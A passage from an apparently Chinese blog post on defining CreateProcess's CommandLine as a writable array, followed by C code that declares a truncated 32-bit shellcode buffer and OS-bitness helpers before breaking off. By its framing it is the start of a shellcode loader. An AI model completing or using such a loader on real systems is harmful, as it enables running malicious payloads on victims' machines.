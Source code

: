 ## 方法1:

方法1 是把 `CommandLine` 的类型定义为数组。你可能会疑问：数组不就是指针，有什么区别吗？

虽然数组的确是指针，但是参考下文：自动分配内存的数组是在栈中的。


[请问C中的数组是存在栈中，还是堆中？](https://bbs.csdn.net/topics/390536150)


所以以数组方式来定义 CommandLine，在内存中必定是把此字符串放在可读/写内存中的，就不会违规了。


实现代码：



```
#include <stdio.h>
#include <windows.h>
#include <tchar.h>
#include <conio.h>

using namespace std;

/* length: 799 bytes */
/* 32-bit shellcode*/
unsigned char buf[] = "\xfc\xe8\x89";


/* 安全的取得真实系统信息*/
VOID SafeGetNativeSystemInfo(__out LPSYSTEM_INFO lpSystemInfo)
{
    if (NULL == lpSystemInfo)    return;
    typedef VOID(WINAPI* LPFN_GetNativeSystemInfo)(LPSYSTEM_INFO lpSystemInfo);
    LPFN_GetNativeSystemInfo fnGetNativeSystemInfo = (LPFN_GetNativeSystemInfo)GetProcAddress(GetModuleHandle(_T("kernel32")), "GetNativeSystemInfo");;
    if (NULL != fnGetNativeSystemInfo)
    {
        ZeroMemory(lpSystemInfo, sizeof(SYSTEM_INFO));
        //printf("%p", fnGetNativeSystemInfo);
        //MessageBoxW(NULL,NULL,NULL,MB_OK);
        fnGetNativeSystemInfo(lpSystemInfo);
    }
    else
    {
        GetSystemInfo(lpSystemInfo);
    }
}

/* 获取操作系统位数 */
int GetSystemBits()
{
    SYSTEM_INFO si = { 0 };
    SafeGetNativeSystemInfo(&si);
    if (si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_AMD64 ||
        si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_IA64)
    {
        return 64;
    }
    return 32;
}

void _tmain(int argc, _TCHAR* argv[])
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    BOOL result;
```